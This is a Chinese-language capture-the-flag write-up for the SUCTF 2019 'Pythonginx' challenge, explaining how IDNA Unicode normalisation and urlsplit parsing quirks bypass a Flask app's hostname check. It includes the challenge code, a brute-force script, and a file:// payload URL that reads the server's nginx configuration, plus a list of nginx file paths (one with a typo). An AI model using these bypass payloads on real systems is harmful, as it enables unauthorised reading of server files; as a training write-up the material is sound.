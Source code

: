 # [SUCTF 2019]Pythonginx

## 知识点

`flask`

`IDNA编码`

`unicode`

## 解题

题目直接给出了源码

```python
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

代码审计大概结果是：前两个判断 `host` 是否是 `suctf.cc` ，如果不是才能继续。然后第三个经过了 `decode(‘utf-8’)` 之后传进了 `urlunsplit` 函数，在第三个判断中又必须要等于 `suctf.cc` 才行。

### 1.IDNA编码漏洞

在`unicode`中字符`℀(U+2100)℆`是(`U+2106`)，当`IDNA`处理此字符时，会将`℀`变成`a/c`，因此当你访问此`url`时，`dns`服务器会自动将`url`重定向到另一个网站。如果服务器引用前端`url`时，只对域名做了限制，那么通过这种方法，我们就可以轻松绕过服务器对域名的限制了。

这也就是说我们传入的`url`为`http://evil.c℀.com`在经过上述处理过后便成为了`http://evil.ca/c.com`

接着用这种方法访问`/getUrl?url=file://suctf.c℆sr/local/nginx/conf/nginx.conf` 得知`flag`的位置

![](img/[SUCTF2019]Pythonginx-1.png)

然后获取`flag`

![](img/[SUCTF2019]Pythonginx-2.png)

### 2.unicode爆破

可以知道是编码问题，且`urlsplit`和`urlparse`存在漏洞，这里我们直接进行脚本爆破，只要得到第`3`个`if`为真前面`2`个为假即可,[生成Unicode](Scripts/gene_unicode.py)

```python
from urllib.parse import urlparse,urlunsplit,urlsplit
from urllib import parse
def get_unicode():
    for x in range(65536):
        uni=chr(x)
        url="http://suctf.c{}".format(uni)
        try:
            if getUrl(url):
                print("str: "+uni+' unicode: \\u'+str(hex(x))[2:])
        except:
            pass
def getUrl(url):
    url = url
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return False
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return False
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return True
    else:
        return False
if __name__=="__main__":
    get_unicode()
```

![](img/[SUCTF2019]Pythonginx-4.png)

![](img/[SUCTF2019]Pythonginx-3.png)

![](img/[SUCTF2019]Pythonginx-5.png)


1. urlsplit漏洞

 假如我们传入：`file:////www.example.com`,进行了 `list(urlsplit(url))` 函数以后就变成了`['file', '', '//www.example.com', '', '']`。也就是它解析域名块为空了。
但当再执行 `urlunsplit` 时 就会合成为 `file://www.example.com` ，达到绕过的效果


### Nginx重要文件位置
配置文件存放目录：`/etc/nginx`
主配置文件：`/etc/nginx/conf/nginx.conf`
管理脚本：`/usr/lib64/systemd/system/nginx.service`
模块：`/usr/lisb64/nginx/modules`
应用程序：`/usr/sbin/nginx`
程序默认存放位置：`/usr/share/nginx/html`
日志默认存放位置：`/var/log/nginx`
配置文件目录为：`/usr/local/nginx/conf/nginx.conf`


[参考文章](https://mayi077.gitee.io/2020/02/05/SUCTF-2019-Pythonginx/)